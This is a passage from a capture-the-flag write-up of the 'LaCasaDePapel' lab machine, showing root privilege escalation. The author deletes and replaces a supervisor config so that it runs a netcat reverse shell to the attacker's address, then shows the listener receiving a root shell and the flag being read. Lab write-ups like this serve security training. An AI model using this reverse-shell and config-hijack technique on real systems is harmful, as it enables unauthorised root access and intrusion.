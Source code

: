 ```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

I can't change this file:

```
lacasadepapel [~]$ echo invalid > memcached.ini
-ash: can't create memcached.ini: Permission denied
```

But I can delete it because of the SGID permission:

```
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? y
lacasadepapel [~]$ ls
memcached.js  node_modules
```

Ok, so now I can just create a new file that'll spawn a reverse shell as root:

```
[program:memcached]
command = sudo /usr/bin/nc 10.10.14.23 4444 -e /bin/sh
```

Then wait a few minutes... Root shell!

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.131.
Ncat: Connection from 10.10.10.131:43525.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd /root
ls
root.txt
cat root.txt
586979....
```
